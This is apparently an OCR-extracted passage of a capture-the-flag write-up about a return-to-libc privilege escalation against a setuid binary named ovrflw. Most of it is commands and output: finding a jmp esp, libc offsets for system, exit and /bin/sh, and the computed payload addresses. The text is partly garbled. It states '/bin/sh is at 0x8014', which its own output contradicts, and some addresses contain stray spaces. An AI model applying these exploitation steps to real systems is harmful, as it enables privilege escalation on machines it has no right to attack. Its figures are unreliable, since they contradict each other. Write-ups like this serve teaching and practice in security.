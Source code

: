 objdump -d /usr/local/bin/ovrflw | grep esp | grep jmp

```
 strings -a -t x  /lib/i386-linux-gnu/libc.so.6  | grep bin
< strings -a -t x  /lib/i386-linux-gnu/libc.so.6  | grep bin                 
   dff5 bindtextdomain
   f121 bindresvport
   fa8c bind
  10492 _nl_domain_bindings
  125bf bind_textdomain_codeset
 162bac /bin/sh
 163b8d invalid fastbin entry (free)
 1645d3 /bin:/usr/bin
 164b10 /bin/csh
 165fc7 /etc/bindresvport.blacklist
 1683a0 malloc(): smallbin double linked list corrupted
 168500 (old_top == (((mbinptr) (((char *) &((av)->bins[((1) - 1) * 2])) - __builtin_offsetof (struct malloc_chunk, fd)))) && old_size == 0) || ((unsigned long) (old_size) >= (unsigned long)((((__builtin_offsetof (struct malloc_chunk, fd_nextsize))+((2 *(sizeof(size_t))) - 1)) & ~((2 *(sizeof(size_t))) - 1))) && ((old_top)->size & 0x1) && ((unsigned long) old_end & pagemask) == 0)
```
/bin/sh is at 0x8014.

```
 readelf -s  /lib/i386-linux-gnu/libc.so.6 | grep system
< readelf -s  /lib/i386-linux-gnu/libc.so.6 | grep system                    
   243: 0011b710    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   620: 00040310    56 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```
system is at 0x40310

```
ovrflw Ret to libc
I’ll find an address of libc:

www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75 f8 000)
$ ldd /usr/local/bin/ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75 63 000)
$ ldd /usr/local/bin/ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75 d5 000)

And I can get offsets for system, exit, and bin/sh:

www-data@october:/dev/shm$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
www-data@october:/dev/shm$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/" 
 162bac /bin/sh
 164b10 /bin/csh
For this libc base (which is right 1/512 times):

exit: 0xb75f8000+0x33260 = 0xB762B260
system: 0xb75f8000+0x40310 = 0xB7638310
/bin/sh: = 0xb75f8000+0x162bac = 0xB775ABAC
```

